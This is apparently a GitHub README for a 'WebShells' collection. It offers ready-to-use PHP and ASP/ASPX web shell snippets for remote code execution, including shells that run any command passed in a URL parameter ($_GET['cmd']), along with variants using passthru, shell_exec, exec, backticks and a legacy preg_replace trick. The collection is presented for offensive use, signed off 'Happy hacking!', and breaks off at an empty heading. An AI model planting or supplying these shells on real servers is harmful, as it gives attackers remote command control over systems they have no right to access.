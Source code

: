 # WebShells

```
> **Disclaimer**  
> This repository is currently under construction. The content is being updated and expanded. New file extensions and detailed descriptions will be added soon. Stay tuned for more additions. Happy hacking!

Currently this document outlines the usage of various PHP file extensions commonly used for web shells and their potential to be exploited for Remote Code Execution (RCE).
```

# PHP Webshells

#### 1. Basic Command Execution Using system()

```php
<?php system("whoami"); ?>
```

#### 2. Passing Commands via URL Parameters with system() (shell.php?cmd=whoami)

```php
<?php system($_GET['cmd']); ?>
```

#### 3. Executing System Commands with passthru()

```php
<?php passthru($_GET['cmd']); ?>
```

#### 4. Capturing Command Output Using shell\_exec()

```php
<?php echo shell_exec("whoami"); ?>
```

#### 5. Using exec() to Run Commands (Outputs Only Last Line)

```php
<?php echo exec("whoami"); ?>
```

#### 6. Storing Full Output from exec() as an Array

```php
<?php
exec("ls -la", $output);
print_r($output);
?>
```

#### 7. Backtick Syntax for Simple Command Execution

```php
<?php echo `whoami`; ?>
```

#### 8. Legacy preg\_replace() Execution Trick (Deprecated)

```php
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>
```

# ASPX Webshells

#### 1. Classic VBScript-Style ASP Command Execution

```asp
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c whoami")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

#### 2. Executing Commands in C# ASPX with Output Display

```aspx
<%@ Page Language="C#" %>
<script runat="server">
protected void Page_Load(object sender, EventArgs e)
{
    System.Diagnostics.Process p = new System.Diagnostics.Process();
    p.StartInfo.FileName = "cmd.exe";
    p.StartInfo.Arguments = "/c whoami";
    p.StartInfo.RedirectStandardOutput = true;
    p.StartInfo.UseShellExecute = false;
    p.Start();
    string output = p.StandardOutput.ReadToEnd();
    Response.Write("<pre>" + output + "</pre>");
}
</script>
```

####

